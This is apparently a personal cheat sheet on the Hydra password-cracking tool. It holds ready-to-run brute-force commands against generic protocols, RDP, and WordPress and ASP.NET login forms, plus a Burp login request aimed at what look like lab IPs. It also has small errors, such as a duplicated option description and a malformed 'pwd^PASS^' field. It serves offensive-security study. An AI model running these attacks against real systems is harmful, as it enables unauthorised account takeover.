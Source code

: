 # Hydra

| Option            | Explanation                                                   |
| ----------------- | ------------------------------------------------------------- |
| `-l username`     | Provide the login name                                        |
| `-P WordList.txt` | Specify the password list to use                              |
| `server service`  | Set the server address and service to attack                  |
| `-s PORT`         | Set the server address and service to attack                  |
| `-V` or `-vV`     | Show the username and password combinations being tried       |
| `-d`              | Display debugging output if the verbose output is not helping | 

| Command                                                                                                                                         | Description                                                                                                                                                        |
| ----------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `hydra -P <wordlist> -v <ip> <protocol>`                                                                                                        | Brute force against a protocol of your choice                                                                                                                      |
| `hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>`                                                                  | You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| `hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>`                                                                                       | Attack a Windows Remote Desktop with a password list.                                                                                                              |
| `hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' ` | Craft a more specific request for Hydra to brute force.                                                                                                            | 

Craft a more specific request for Hydra to brute force.

```shell
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.13.215 http-form-post "/Account/login.aspx?ReturnURL=admin:__VIEWSTATE=Q3C6t5UR5WbecqI6RxFVaHu2Jtr1TdsBm55dod6%2BSIHxT0kxMBXn8wPbUnML9Vy9uRcSdloliGhTiMXdg3L7dnVvby02BPayOuD6c2LVg%2FU1c1yfSmFi5O6NlaTJYr68DyAXNg6D0j2asLCrpbH%2FWtzIy%2BZc3SUPCjeyLjkOGGAvF%2BTu&__EVENTVALIDATION=v4fE3cbsejLdoruZ%2FnmnsQwMup0S0RVxnZgjAleWBCxzueQe6GQdUCeTG2i7uhPOvsZLXXydTOvEA2CVgd1vzxHIeYpzSSUxXjRSmXxYMBjDiqZ%2BE3y8DMbAC4KwudESlYVM2xBlpPHOe5utRfzqUDFKO5Df4kWeOvLVLRLBuTxZAlxu&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" 
```

WordPress - Burp
```php
POST /wp-login.php HTTP/1.1

Host: 10.10.114.27

log=§admin§&pwd=§admin§&wp-submit=§Log+In§&redirect_to=§https%3A%2F%2F10.10.114.27%2Fwp-admin%2F§&testcookie=§1§
```

WordPress - Hydra input
```shell
hydra -L fsocity.dic -p test 10.10.114.27 http-post-form "/wp-login.php:log=^USER^&pwd^PASS^:Invalid username" -t 30

```

#tools #hydra